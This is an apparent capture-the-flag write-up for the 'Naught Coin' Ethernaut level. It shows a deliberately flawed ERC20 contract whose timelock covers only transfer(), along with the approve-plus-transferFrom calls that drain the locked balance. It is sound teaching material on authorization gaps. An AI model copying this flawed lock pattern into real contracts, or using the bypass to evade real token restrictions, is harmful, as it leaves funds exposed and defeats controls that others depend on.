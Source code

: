 # Naught Coin
Difficulty: 6/10

NaughtCoin is an ERC20 token and you're already holding all of them. The catch is that you'll only be able to transfer them after a 10 year lockout period. Can you figure out how to get them out to another address so that you can transfer them freely? Complete this level by getting your token balance to 0.

Things that might help
* The [ERC20](https://github.com/ethereum/EIPs/blob/master/EIPS/eip-20.md) Spec
* The [OpenZeppelin](https://github.com/OpenZeppelin/zeppelin-solidity/tree/master/contracts) codebase
  
``` Solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts@3.4/token/ERC20/ERC20.sol';

 contract NaughtCoin is ERC20 {

  // string public constant name = 'NaughtCoin';
  // string public constant symbol = '0x0';
  // uint public constant decimals = 18;
  uint public timeLock = now + 10 * 365 days;
  uint256 public INITIAL_SUPPLY;
  address public player;

  constructor(address _player) 
  ERC20('NaughtCoin', '0x0')
  public {
    player = _player;
    INITIAL_SUPPLY = 1000000 * (10**uint256(decimals()));
    // _totalSupply = INITIAL_SUPPLY;
    // _balances[player] = INITIAL_SUPPLY;
    _mint(player, INITIAL_SUPPLY);
    emit Transfer(address(0), player, INITIAL_SUPPLY);
  }
  
  function transfer(address _to, uint256 _value) override public lockTokens returns(bool) {
    super.transfer(_to, _value);
  }

  // Prevent the initial owner from transferring tokens until the timelock has passed
  modifier lockTokens() {
    if (msg.sender == player) {
      require(now > timeLock);
      _;
    } else {
     _;
    }
  } 
} 
```

# Solution
Review the above contract. You can see the developers are trying to restrict the transfer of tokens by using the modifier `lockTokens` and overridding `transfer` function.

To see how many tokens you have you can run the command `(await contract.INITIAL_SUPPLY()).toString()`. 
From the output, you can see that you have `1000000000000000000000000` tokens.


Reading the ERC20 specs, you can see that `transferfrom()` allows the transfer of tokens from the one wallet to another wallet. Which is another way to transfer tokens, other than `transfer()`.

``` Solidity
function transferFrom(address _from, address _to, uint256 _value) public returns (bool success)
```

Prior to using `transferfrom()`, the token owner wallet have to approve allowance for moving the tokens. This is done using the `approve()` function. The following code is needs to be ran by the token owner, and it's approving (player) `0xd69DFe5AE027B4912E384B821afeB946592fb648` to move `1000000000000000000000000` tokens.

``` Solidity
contract.approve('0xd69DFe5AE027B4912E384B821afeB946592fb648','1000000000000000000000000')
```

Now we can use transferFrom() to empty the wallet:
``` Solidity
contract.transferFrom(player, '0x5A7A9517f118dCCEfAFcB6AF99ADD30b904Ce9cb','1000000000000000000000000')
```

# Completion Message
```
Level completed!

When using code that's not your own, it's a good idea to familiarize yourself with it to get a good understanding of how everything fits together. This can be particularly important when there are multiple levels of imports (your imports have imports) or when you are implementing authorization controls, e.g. when you're allowing or disallowing people from doing things. In this example, a developer might scan through the code and think that transfer is the only way to move tokens around, low and behold there are other ways of performing the same operation with a different implementation.
```